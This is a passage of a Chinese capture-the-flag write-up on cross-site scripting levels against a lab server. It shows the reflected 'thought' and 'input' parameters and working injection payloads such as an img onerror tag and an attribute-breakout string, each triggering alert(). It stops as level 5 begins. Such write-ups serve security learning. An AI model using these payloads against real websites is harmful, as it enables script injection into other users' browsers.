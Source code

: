 ```html
            place3.innerHTML = text7;
            place4.innerHTML = text8;
            place5.innerHTML = text9;
            place6.innerHTML = text10;
            document.getElementById("button-holder").innerHTML = '';
            var box = document.createElement("div");
            box.id='box';
            box.style = "width:300px; height:auto; border:1px solid #e5e5e5; background:#f1f1f1";
            document.querySelector(".box-container").appendChild(box);
            var oBox = document.getElementById("box");
            oBox.innerHTML += '难道这面镜子的主人能对主导者产生威胁' + '<br/>';
            document.getElementById("text7").innerText = "当你的思绪过多时，尝试集中注意力想着clear";
        }
    }

    type();

</script>
```

观察到 <http://10.10.17.36:32893/level3.php?thought=%e9%9a%be%e9%81%93%e8%bf%99%e9%9d%a2%e9%95%9c%e5%ad%90%e7%9a%84%e4%b8%bb%e4%ba%ba%e8%83%bd%e5%af%b9%e4%b8%bb%e5%af%bc%e8%80%85%e4%ba%a7%e7%94%9f%e5%a8%81%e8%83%81> 中的 thought 的内容与```oBox.innerHTML += '难道这面镜子的主人能对主导者产生威胁' + '<br/>';```中的内容一样，猜测可能是注入点。

使用之前的 Payload，构造 URL <http://10.10.17.36:32893/level3.php?thought=%3C%2Fdel%3E%3Cimg%20src%3D%22test%22%20onerror%3D%22alert%28%29%22%2F%3E%3Cdel%3E>，并点击第二个按钮，成功通关。

## 第四题

看到 URL 为<http://10.10.17.36:32893/level4.php?input=>，将其改为<http://10.10.17.36:32893/level4.php?input=test>并阅读网页代码，观察到以下元素：

```html
<center class="input-container"><input id="input-text" type="hidden" value="test"></center>
```

这里会不会是注入点呢？尝试构造如下内容：

```html
"><img src="test" onerror="alert()
```

转义后构造出如下URL <http://10.10.17.36:32893/level4.php?input=%22%3E%3Cimg%20src%3D%22test%22%20onerror%3D%22alert%28%29>，访问后发现攻击成功。

## 第五题

这道题略有难度。

在经过很多次失败尝试后，我决定阅读文案，寻找出题人的善意提示。

```text
生活总是需要一些事件作为仪式感嘛
```
